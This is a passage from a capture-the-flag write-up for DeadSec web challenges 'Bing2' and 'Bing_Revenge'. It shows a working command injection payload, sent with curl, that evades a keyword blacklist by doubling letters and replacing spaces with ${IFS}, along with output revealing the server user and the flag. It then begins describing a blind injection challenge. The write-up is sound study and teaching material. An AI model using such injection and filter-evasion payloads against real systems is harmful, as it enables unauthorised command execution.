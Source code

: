 Because it *removes* the keywords we can use that to generate our keywords like this:

```sh
➜  Bing2 curl -XPOST https://d931e8d7082cacac0d2a37f7.deadsec.quest/bing.php -d "Submit" -d 'ip=;id;cacatt${IFS}/f*'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
DEAD{5b814948-3153-4dd5-a3ac-bc1ec706d766}
```

I also used `${IFS}` as a space because spaces are blacklisted too


## Bing_Revenge

- Difficulty: Easy

![Bing_Revenge](/assets/images/deadsec-writeups/bing_revenge.png)

This one takes different approach than the previous, it's a python application that will execute the command we provide in the `host` parameter, the trick here is nothing printed what so ever in the response, so we need to find a way to read the flag `/flag.txt` without seeing the output. Unfortunately, we can't have out of band access to the server because of the firewall.
